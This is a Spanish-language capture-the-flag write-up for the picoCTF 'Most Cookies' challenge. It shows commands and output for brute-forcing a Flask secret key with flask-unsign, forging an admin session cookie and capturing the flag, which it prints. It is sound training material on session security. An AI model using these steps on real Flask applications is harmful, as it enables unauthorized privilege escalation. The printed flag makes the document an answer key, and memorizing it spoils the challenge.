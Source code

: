 ## Descripción  
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/)

## Datos de Acceso al Nivel
user: carlosof / kali 
password:

## Solución
- Descargamos el archivo .py que nos proporciona el reto y lo analizamos.
- Podemos darnos cuenta de la lista de galletas, en alguna de ellas esta la cookie que necesitamos.
- En nuestro entrono de pruebas (kali, en mi caso) debemos descargar la herramienta flask.
	- Para evitar problemas, debemos de instalar pipx.
		- `sudo apt install pipx` adicionalmente agregamos los siguientes comandos  `pipx ensurepath` y   `source ~/.zshrc`
- Una ves teniendo la herramienta, podemos almaceanar el nombre de las cookies en un archivo, en este caso `cookies`: 
```bash
┌──(kali㉿kali)-[~/retosWeb]
└─$ echo "snickerdoodle          
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia" > cookies.txt
```
- Una vez tenemos el archivo, es momento de utilizar la herramienta y escribimos el siguiente comando `flask-unsign -u --server http://mercury.picoctf.net:44693/ --wordlist cookies.txt `

	- - **`flask-unsign`**: Es la herramienta que se utiliza para manipular o desfirmar cookies en aplicaciones Flask.
    
	- **`-u`**: Este flag indica que se va a utilizar una URL específica. Es una opción común para indicar la dirección del servidor al que se está apuntando.
    
	- **`--server http://mercury.picoctf.net:44693/`**: Esta opción especifica la URL del servidor donde se encuentra la aplicación Flask que se desea analizar.
    
	- **`--wordlist cookies.txt`**: Este parámetro indica que se va a utilizar un archivo de texto (`cookies.txt`) como lista de palabras.
```bash
┌──(kali㉿kali)-[~/retosWeb]
└─$ flask-unsign -u --server http://mercury.picoctf.net:44693/ --wordlist cookies.txt 
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZvsaZA.PTv7o6qkcxczks8ZfGe7HnqKqtI
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'butter'
```
- Ahora escribimos el siguiente comando `flask-unsign -s -c "{'very_auth': 'admin'}" -S butter`
	- - **`-s`**: Indica que se desea desfirmar o manipular la cookie.
    
	- **`-c "{'very_auth': 'admin'}"`**: Especifica que se quiere modificar la cookie para que el valor del campo `very_auth` sea `'admin'`. Esto sugiere que se intenta elevar privilegios o acceder a funcionalidades administrativas.
    
	- **`-S butter`**: Indica la clave secreta que se encontró previamente (`butter`), que se usará para firmar la cookie modificada.
```bash
┌──(kali㉿kali)-[~/retosWeb]
└─$ flask-unsign -s -c "{'very_auth': 'admin'}" -S butter
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zvseeg.sLz_TB4HZuUkpDQgDJGTQxe4su8
```
- Ya hemos obtenido la nueva cookie, ahora nos dirijimos a la pagina web y con la herramienta `cookie-editor` cambiamos el valor de la cookie anterior por la nueva que obtuvimos `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zvseeg.sLz_TB4HZuUkpDQgDJGTQxe4su8`.
- Recargamos la pagina y obtenemos la bandera.
- **Flag**: `picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}`
## Notas Adicionales
- **Pipx** es una herramienta de Python que permite instalar y ejecutar aplicaciones Python de manera aislada. Su principal propósito es facilitar la gestión de herramientas de línea de comandos que son escritas en Python.
## Referencias 
https://play.picoctf.org/practice/challenge/177
http://mercury.picoctf.net:44693/display